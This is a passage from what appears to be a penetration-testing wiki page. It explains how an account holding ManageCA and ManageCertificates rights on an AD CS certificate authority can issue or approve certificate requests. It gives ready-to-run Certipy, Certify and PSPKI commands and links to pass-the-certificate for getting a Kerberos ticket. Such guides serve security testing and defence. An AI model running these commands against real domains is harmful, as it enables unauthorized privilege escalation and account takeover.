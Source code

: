 #### ManageCertificates Rights

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate access rights over the CA object ([how to enumerate](broken-reference)). Coupled with the **ManageCA** right, it is possible to issue a certificate from a failed request.

```bash
# Issue a failed request (need ManageCA and ManageCertificates rights for a failed request)
certipy ca -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -issue-request 100

# Retrieve an issued certificate
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -retrieve 100
```

The certificate can then be used with [Pass-The-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.

{% hint style="info" %}
By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used to enumerate info about the CAs, including access rights over the CA object, and to request a certificate that requires manager approval.

Then, [PSPKI](https://github.com/PKISolutions/PSPKI) (PowerShell) can be used to approve a certificate request ([RSAT](https://docs.microsoft.com/fr-fr/troubleshoot/windows-server/system-management-components/remote-server-administration-tools) is needed on the machine where PSPKI is used). PSPKI is a PowerShell module used to "simplify various PKI and AD CS management tasks".

```powershell
# 1. Request a certificate that requires manager approval with Certify
Certify.exe request /ca:CA.domain.local\CA /template:ApprovalNeeded
...
[*] Request ID : 1

# 2. Install PSPKI on a controlled Windows host
Install-Module -Name PSPKI
Import-Module PSPKI

# 3. Approve the pending request with PSPKI
PSPKI > Get-CertificationAuthority -ComputerName CA.domain.local | Get-PendingRequest -RequestID 1 | Approve-CertificateRequest

# 4. Download the certificate with Certify
Certify.exe download /ca:CA.domain.local\CA /id:1
```
{% endtab %}
{% endtabs %}
